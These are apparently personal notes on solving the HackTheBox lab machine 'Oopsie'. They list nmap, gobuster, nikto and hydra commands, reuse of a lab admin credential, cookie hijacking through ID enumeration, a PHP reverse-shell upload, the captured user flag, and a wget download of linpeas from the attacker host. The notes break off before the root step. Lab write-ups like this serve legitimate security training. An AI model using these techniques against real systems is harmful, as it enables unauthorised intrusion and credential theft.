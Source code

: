 # Oopsie 

> Ver Easy | Linux 

<br>

### Process:

1. port scan:
	- `sudo nmap -T4 -p- 10.10.10.28` 
	- `sudo nmap -T4 -A -p 22,80 10.10.10.28` 
2. enumerate port 22:
	- try anonymous connection - failed
	- read banner = SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3
3. enumerate port 80:
	- visit website `http://10.10.10.28`
		- found "admin" username
	- run gobuster: `gobuster dir -u http://10.10.10.28 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,bak,conf,txt`
	- check for robots.txt - none 
	- run nikto scan: `nikto -h 10.10.10.28`
		- found "/cdn-cgi/login/" page
	- inspect source code 
	- run gobuster against "/cdn-cgi" directory 
	- run gobuster against "/cdn-cgi/login" directory 
4. try to brute force admin login:
	- web login with hydra: `hydra 10.10.10.28 http-post-form "/cdn-cgi/login/login.php:username=^USER^&password=^PASS^:Log in" -l admin -
P /usr/share/wordlists/rockyou.txt -f -V` -- failed
	- SSH login with hydra: `hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.28 -T4` -- failed
5. used admin credentials found on last box [[achetype]]:
	- "admisistrator:MEGACORP_4dm1n!!" -- sucess
6. check out Uploads tab:
	- need to be super admin to upload files
7. inspect Account tab:
	- displays access ID, name, and email
	- found admin account with cookies:
		- user: 34322
		- role: admin
	- these cookies values correspond with values in Accounts table 
	- try to find super admin account:
		- send request to Burp intruder
		-  select the "id" parameter
		-  set a Numbers type payload and enumerate from 1 to 100 with a step of 1
	- found super admin at `http://10.10.10.28/cdn-cgi/login/admin.php?content=accounts&id=30`
	- hijack cookie values:
		- user: 86575
		- role: super admin
	- can now upload files
8. try to upload PHP reverse shell:
	- download shell from [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
	- make changes and upload with hijacked cookies on `http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads&action=upload` page
	- then setup listener and navigate to `http://10.10.10.28/uploads/r.php` to execute ("r.php" is the name of the PHP reverse shell)
9. get user flag:
	- `cd /home/robert` -> `cat user.txt`
	- user flag = **f2c74ee8db7983851ab2a96a44eb7981**
10. get root flag:
	- esclate privileges:
		- upload linpeas: `cd /var/tmp && wget http://10.10.14.93:8080/linpeas.sh`
		- run linpeas: `./linpeas.sh`
	- ... 

	
	
